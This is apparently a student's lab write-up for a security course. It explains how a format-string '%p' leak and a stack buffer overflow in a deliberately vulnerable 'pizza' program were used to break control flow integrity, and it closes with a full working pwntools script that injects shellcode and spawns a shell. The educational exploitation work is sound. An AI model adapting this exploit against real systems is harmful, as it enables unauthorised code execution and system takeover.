 # Assignment 10
The goal of this assignment was to learn about control flow integrity and how to break it. I did this by using pwntools, a python library designed to exactly this. To do this we took a poorly made ,at least as far as security is concerned, program that allowed user to input data that wasn't properly checked. 

## Process
The first thing we had to do was determine what we could do to the program to break it. To do this I started off by just trying to over flow the buffers for input. There was 2 locations I was able to overflow and cause a segmentation fault, the name and the credit card input for the progam.

![image](https://github.com/Novaii-Yoder/CS579/assets/52936757/3cd84b7c-498e-4497-8a8d-ffdba1d527b9)

So now we know we can input our shellcode into the input and overwrite return addresses to call the shellcode, but the hard part now is finding where to overwrite the return address and what address to overwrite it with. The way I did this was by getting the program to leak an address to the stack, this way I could find an offset and use that to get the code to run. This can be done in the pizza program by feeding it a string of `%p` because of the way the program was written. The pizza program uses something like sprintf, or printf in the code which allows us to use format specifiers in our string input. This is really bad practice because when you pass too many specifiers and not enough input you get undefined behavior which opens your program to attacks. Because of our format specifiers '%p' we can print what ever is on that stack as pointers to the screen, so we just print a few untill we see a pointer that leads to the stack.

![image](https://github.com/Novaii-Yoder/CS579/assets/52936757/0dffaf51-392c-42f9-896f-64b95773e856)

Now that we've leaked pointers we just have to determine which one to use and create an offset. Because of randomize stack locations we cant hardcode a return address to our shellcode, because everytime the program runs it would be different. So we have to to find the offset from one of the leaked pointers. I did this by using the corefiles that the cpu dumps when it crashes, so all I had to do was crash the program, which we already discovered how to do. After crashing the program I used the core file and pwntools to open it and view pointers and the stack. I used the stackpointer at the time of the crash and printed the stack around that pointer to get a glimpse of the stack.

![image](https://github.com/Novaii-Yoder/CS579/assets/52936757/ecbb3f33-2826-412b-a9cd-4b9c20f4746e)

In the image above you can see that I have already input the shellcode and crashed the program by following it with a bunch of A's. Using this glimpse into the stack we can determine 2 things: First, that the position of the stackpointer at the time of the crash is return address we want to replace. Second, we know where the adress of the shellcode is, so now we can calculate the offset.

To calculate the offset we just take the two stack address we found and subtract them from eachother. This will give us the number we need to add to the leaked address everytime we run the code and put into the return address. 
In this case we take:
~~~
    0x7ffe2c82e8e0
-   0x7ffe2c82e870
--------------------
    0x000000000070 => 112
~~~
So now we can but everything together and have the program leak addresses at runtime, and create the return address with the offset, then combine the the shellcode, a buffer of whatever, then finally the return address to the shellcode. Then we can run the program again and it will allow us to use the terminal.

![image](https://github.com/Novaii-Yoder/CS579/assets/52936757/77026007-490a-4063-a853-4191e27e16fc)

## Code
~~~python3
from pwn import *

# A simple function that takes a core file and prints the stack, it prints the number entered as the total lines and prints the lines around where the stack pointer was when the program crashed.
def print_stack(core, num=20):
    rsp = core.rsp
    print("Stack")
    x = num//2
    for i in range(x, 1, -1):
        tmp = rsp + 8 * i
        print(f"{tmp:x}\t{core.read(tmp, 8)}")

    print(f"{tmp:x}\t{core.read(rsp, 8)} <------- RSP")

    for i in range(1, x):
        tmp = rsp - 8 * i
        print(f"{tmp:x}\t{core.read(tmp, 8)}")



#### MAIN ####

# Executable and Linkable Format
elf = ELF("./pizza")

# Set the context in pwn to machine settings
context(arch='amd64', os='linux', endian='little', word_size=64)

# Get the addresses to function names
# getname_address = elf.symbols["getname"]
# print(hex(getname_address))

# Loads in pwn's shell code as assembly
shellcode = asm(shellcraft.amd64.linux.sh())

# Prints shellcode as assembly
# print(shellcraft.amd64.linux.sh())

# Prints shellcode as hex
# print(shellcode.hex().upper())

# Start the target process we will be breaking into 
victim = process("./pizza")

# First input tricks the program into printing stack and other locations
input1 = b"%p %p %p %p %p %p %p %p %p %p"

# Get the first line of output
print(str(victim.recvline(), "latin-1"))

# Send our "name" aka "%p %p.."
victim.sendline(input1)

# Get the response and parse it into getting the stackpointer
line = str(victim.recvline(), "latin-1")
print(line)
# Subtract the offset to the start of our shellcode
addr = int(line.split(" ")[7], 16) - 112
# Create our second input, which will have the shellcode, then a bunch of garbage until the return adress to the shell code.
input2 = shellcode + b"A"*88 + addr.to_bytes(8, 'little')


line = str(victim.recvline(), "latin-1")
victim.sendline(b"4")

# Send our shellcode 
victim.sendline(input2)

# Give the control back to us
# Now we have access to the computer as whoever ran ./pizza
victim.interactive()

victim.wait()

# This finds the corefile from a segfault and lets us parse it
# core = victim.corefile
# print_stack(core, 40)

# print(input2)
# print(disasm(core.read(core.rip,8))) # prints next instructions
exit()
~~~
